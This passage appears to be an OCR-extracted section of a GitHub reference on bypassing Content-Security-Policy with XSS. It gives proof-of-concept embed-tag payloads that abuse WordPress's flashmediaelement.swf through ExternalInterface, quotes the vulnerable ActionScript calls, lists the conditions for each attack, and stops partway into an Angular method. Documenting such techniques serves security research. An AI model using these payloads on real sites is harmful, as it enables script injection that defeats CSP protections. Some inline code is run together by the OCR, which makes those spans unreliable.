 PoC:

[https://vulnerabledoma.in/bypass/text?csp=self&q=%3Cembed%20name=a%20flashvars=%27autoplay=true%26file=%22})\%22)-(alert=alert(1)))}catch(e){}//%27%20allowscriptaccess=always%20src=//vulnerabledoma.in/bypass/wp-includes/js/mediaelement/flashmediaelement.swf%3E](https://vulnerabledoma.in/bypass/text?csp=self&q=)

```
<embed name=a flashvars='autoplay=true&file="})\")-(alert=alert(1)))}catch(e){}//' allowscriptaccess=always src=//vulnerabledoma.in/bypass/wp-includes/js/mediaelement/flashmediaelement.swf>
```

ActionScript:

```
ExternalInterface.call("setTimeout", ExternalInterface.objectID + '_event' + "('" + eventName + "'," + eventValues + ")", 0);
```

#### Use with `ExternalInterface.objectID`Flash`ExternalInterface.call()`

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. There is Flash being passed to the `ExternalInterface.objectID`same origin`ExternalInterface.call()`
3. Flash can be used in the target environment

supplement:

`ExternalInterface.objectID`is a property in which the value of the name attribute of the tag used for embedding is set, and although it cannot be XSSed by itself, it can be used only for bypassing. It `Content-Security-Policy: default-src 'self'`can also be used to bypass CSP when there are restrictions on CSP such as.

PoC:

[https://vulnerabledoma.in/bypass/text?csp=self&q=%3Cembed%20name=%27alert(1)-%27%20allowscriptaccess=always%20src=//vulnerabledoma.in/bypass/wp-includes/js/mediaelement/flashmediaelement.swf%3E](https://vulnerabledoma.in/bypass/text?csp=self&q=)

```
<embed name='alert(1)-' allowscriptaccess=always src=//vulnerabledoma.in/bypass/wp-includes/js/mediaelement/flashmediaelement.swf>
```

ActionScript:

```
ExternalInterface.call(ExternalInterface.objectID + '_init');
```

#### Using Angular

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. A page on the same origin that hosts Angular or loads Angular from a CORS-enabled CDN
